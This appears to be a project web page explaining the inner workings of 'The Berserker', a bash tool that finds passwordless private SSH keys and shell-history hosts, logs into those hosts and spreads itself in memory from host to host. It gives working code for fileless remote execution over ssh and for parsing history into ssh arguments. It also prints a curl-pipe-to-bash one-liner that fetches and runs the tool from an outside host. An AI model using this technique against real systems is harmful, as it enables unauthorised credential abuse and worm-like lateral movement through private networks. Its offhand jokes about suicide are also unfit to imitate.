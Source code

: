 ```yaml
---
layout: default
title: The Berserker / How it works
description: Technical details about how The Berserker works.
---
```


<!-- Begin of ugly CSS navigation styling hack -->
<style>a[href$="/how-it-works/"] { font-weight: bold; }</style>
<!-- End of ugly CSS navigation styling hack -->

{% include nav-berserker-v1.html margin-top="0" margin-bottom="4rem" %}

<!-- {:refdef: style="text-align: center;"}
## **A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts**
{: refdef} -->

Random notes on how [The Berserker](../) works.

## Executive Summary

[The Berserker](../) is a bash script. At this point the reader either has a heart attack or multiple orgasms. There is no in-between.

## General

The Berserker looks for any passwordless private ssh-key in `~/.ssh` and then gathers information from the User's shell history (`~/.bash_history`, `.zsh_history` and `~/.history`) about any host the User connected to in the past. The Berserker then attempts to log into each host and injects itself into the remote's bash memory. It executes itself on the remote host and continues to do its deeds.

It keeps doing so until all ssh keys have been used and all hosts have been visited.

**Example**: User `alice` starts The Berserker on host `Earth` (the *origin*). The Berserker finds Alice's ssh-key and detects (from Alice's shell history) that `alice` frequently connects to `Mars` (as alice) and `Jupiter` (as root). The Berserker first connects to `Mars` and executes itself on `Mars`. Let's assume The Berserker finds no further ssh-keys on `Mars` and so it will not spread beyond `Mars`. Next it connects from `Earth` to `Jupiter`. It's a root login to `Jupiter` and The Berserker finds many ssh-keys from various users. One such user is `bob` who frequently connects to `Uranus` and from there to `Pluto`. Ultimately The Berserker will get to `Pluto` via a long ssh chain from `Earth`->`Jupiter`->`Uranus`->`Pluto`.

At this point the educated reader will realise that The Berserker is *deep penetrating* `Uranus`, e.g. `Uranus` gets owned even if firewalled or not being accessible from the Internet (but accessible from `Jupiter`).

Berserker implements a text-based communication protocol via the stdin/stdout ssh-chain to send its findings back to `Earth` (the *origin* where The Berserker started).

## Bash In-Memory execution

Bash has this tremendous ability to load a script from a memory location and without the script needing to be stored on the target host.

```shell
cat >e.sh<<__EOF__
#! /bin/bash
echo "Hello '\$USER'"
__EOF__
S="$(cat e.sh | sed 's/\x27/\x27"\x27"\x27/g')"
ssh user@host.com "export SCRIPT='$S'; bash -c \"\$SCRIPT\""
```

1. Create a bash script named `e.sh`.
1. Slurp the content into the variable `$S` after converting all `'` to `'"'"'`. That's a bit freaky but hold your beer.
1. I use the hex notation (`\x27`) of `'` here or otherwise it would look rather complicated (`sed` needs the `'` escaped so it is double-escaping time): `S="$(cat e.sh | sed 's/'"'"'/'"'"'"'"'"'"'"'"'/g')"`. Most readers would commit suicide at this point. This is just to escape `'` correctly so that it can be passed to `ssh` as a command via a variable (`SCRIPT='$S'`) without interfering with the `'` around the `$S`.
1. The long string `export SCRIPT='$S'; bash -c \"\$SCRIPT\"` is passed as a command to `ssh` to execute on the remote host. Note that the `$` in `\"\$SCRIPT\"` is escaped to prevent the local shell from substituting the variable. We like the remote bash (not the local one) to substitute `$SCRIPT`. This is only needed because The Berserker needs to access the source of its own script (now stored in `$SCRIPT` to spread to further hosts). Otherwise `bash -c '$S'` would work.

No data is written to the target's host hard drive. All is kept in memory.

SSH has a 128k limit for passing arguments. *That ought to be enough for everyone*. Otherwise have a look how this limitation is overcome in [ssh-it's hook.sh](https://github.com/hackerschoice/ssh-it/blob/main/src/hook.sh) (piping a script with `dd` into a remote bash variable and executing the string from memory is a thing....).

## Bash Command line parsing

There is no efficient way to convert a command line string from `~/.bash_history` to an array in bash.

The history file contains the recently *typed* commands rather then the *executed* commands. There is a fine difference. Bash records the input rather then what's passed to exec(2) system call. Let's illustrate the problem:

```shell
ls foo\ bar
```

The bash records `ls foo\ bar` rather than what it actually executes (`exec("ls", "foo bar")`; note the missing `\`). This is a problem if there are history entries containing bash variables or escape sequences like `$HOME` or `\ ` in the file name:

```shell
ssh -i $HOME/.ssh/id_dsa\ key.dat root@openbsd.org
```

The command actually executed is `exec("ssh", "-i", "/home/user/.ssh/id_dsa key.dat", "root@openbsd.org")` and from the string above it's impossible to determine which argument is passed as 1st, 2nd or last parameter to exec(2) - only bash knows.

The program `xargs` comes to the rescue to split the command line string into separate ARGV arguments the same way as bash would do. However, xargs executes another program (with the correctly split arguments). So we used `xargs` to call `bash -c` and output each command line argument in a separate line and then convert this into a bash array:

```shell
line="$(echo "ssh -i ~/.ssh/id_dsa\ key.dat root@openbsd.org" | xargs bash -c 'n=0; while [[ $n -le ${#} ]]; do eval eval echo "\$${n}"; n=$((n+1)); done')"
```

The variable `line` now contains:

```
ssh
-i
/home/user/.ssh/id_dsa key.dat
root@openbsd.org
```

Note: The double `eval eval` is needed. The first one convert the `${#}` to the integer number of the arguments passed to the bash by `xargs` and the second `eval` resolves the `~/` to the absolute directory name.

That format can now easily be split into an array like so:

```shell
IFS=$'\n' MyArray=($line)
```

We can add this into a nice bash function and have the bash-array returned by *pointer* (yes, bash can do pointers):

```shell
bash -l
cat >test.sh<<__EOF__
cmdline2array()
{
	local line
	# Double eval: 1st: To turn \$1 to argument string. 2nd to turn ~/.ssh to /home/user/.ssh
	line="\$(echo "\$2" | xargs bash -c 'n=0; while [[ \$n -le \${#} ]]; do eval eval echo "\\\$\${n}"; n=\$((n+1)); done')"
	# echo "LINES=\$line"
	IFS=$'\n' eval "\${1}=(\\\$line)"
	IFS=" "
}
__EOF__

# Now calling this function will store the arguments as array in 'MyArray':
source test.sh
cmdline2array MyArray "ssh -i ~/.ssh/id_dsa\ key.dat root@openbsd.org"
echo "Number of elements in MyArray: ${#MyArray[@]}"
# The output is '4'
echo "Content: ${MyArray[*]}"
# The output is: ssh -i /home/user/.ssh/id_dsa key.dat root@openbsd.org
```

 * Note how the *string* `MyArray` is passed as a function parameter (followed by the ssh command). Inside the function we use `eval` on that string to 'turn' the string-name (`MyArray`) into a bash variable. And that is how you (efficiently) pass one or more return values from the function back to the caller.

## Bash stderr and $? catching

The Berserker needs to check the error output of `ssh` _and_ also needs the exit-code of `ssh` _and_ the standard output must pass through. The only way to do this in bash is to play file descriptor bonanza:

```shell
{ err="$( { echo 1>&2 "Hello-STDERR"; exit 123; } 2>&1 1>&3 3>&- )"; } 3>&1 || ret=$?
echo "ret=$ret, err=$err"
```

* The `echo 1>&2 "Hello-STDERR";` generates some test output to STDERR.
* The `exit 123;` is some test exit code (123).

The output is `ret=123, err=Hello-STDERR`.

## Transport Protocol via STDIN/STDOUT

All the slaves need to report back their findings to `Earth` (the *origin*). A simple protocol is used to pass the information from the farthest `ssh` back to the *origin* (via a long chain ssh-stdin-chain). In our example from above `Pluto` would pass the message back to `Uranus`, `Uranus` back to `Jupitor`, ... to `Mars`, ... to `Earth`. All protocol messages are then dispatched at the *origin* in `msg_dispatch()`. The protocol messages are rather simple and you can see them by forcing the *origin* to be a slave with `BS_DEBUG_IS_SLAVE=1`:

```shell
export BS="$(curl -fsSL https://thc.org/ssh-it/bs)" && bash -c "BS_DEBUG_IS_SLAVE=1 $BS"
```

The output will look similar to this:

```
|I|0|76672d|[#1] ~/.ssh/id_rsa
|I|0|76672d|[#2] ~/.ssh/id_rsa-old
|T|0|76672d|admin@192.168.1.1|1/112
|O|0|76672d|
|L|1|437048|76672d|admin|ubnt
|C|0|76672d|~/.ssh/id_rsa
|T|0|76672d|pi@192.168.1.18|3/112
|O|0|76672d|
|L|1|39a307|76672d|pi|raspberrypi
|I|1|39a307|Found 1 hosts to try.
|I|1|39a307|Found 1 key without password.
|I|1|39a307|[#1] ~/.ssh/id_rsa
```

## If you are reading this...

If you made it all the way to here then you are the type of person we like to hang out with. Join us on [Telegram](https://t.me/thcorg).

## Contact

{% include contact-details.md %}
